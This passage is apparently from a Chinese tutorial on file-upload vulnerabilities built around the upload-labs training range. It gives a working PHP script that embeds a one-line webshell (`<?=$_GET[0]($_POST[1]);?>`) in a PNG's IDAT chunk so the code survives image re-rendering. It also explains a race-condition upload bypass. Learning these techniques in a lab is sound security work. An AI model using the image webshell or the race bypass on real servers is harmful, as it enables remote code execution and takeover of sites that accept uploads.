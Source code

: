 gif：找到渲染前后没有变化的位置，将PHP代码写进去。

png：写入IDAT数据块

使用脚本生成图片马

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
         0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
         0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
         0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
         0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
         0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
         0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
         0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
 $r = $p[$y];
 $g = $p[$y+1];
 $b = $p[$y+2];
 $color = imagecolorallocate($img, $r, $g, $b);
 imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./idat.png');
?>
```

可以看到，在IDAT数据块中，有一句话木马：`<?=$_GET[0]($_POST[1]);?>`，这里利用了PHP中的短开标签。

注意：使用短开标签，需要在php.ini中，将`short_open_tag=On`



### 其他

#### 条件竞争

```php
条件竞争漏洞（Race condition）官方概念是“发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中。

upload-labs中的Pass-17是一个典型的条件竞争上传

代码执行逻辑：先移动，后检测，不符合再删除，符合则改名字。

因此我们可以让burp一直发包，让php程序一直处于移动php文件到upload目录这个阶段

我们使用多线程并发访问上传的文件，总会有一次在上传文件到删除文件这个时间段访问到上传的php文件，一旦我们成功访问到上传的php文件，那么它就会向服务器写一个shell。
```



## 漏洞复现

### upload-labs
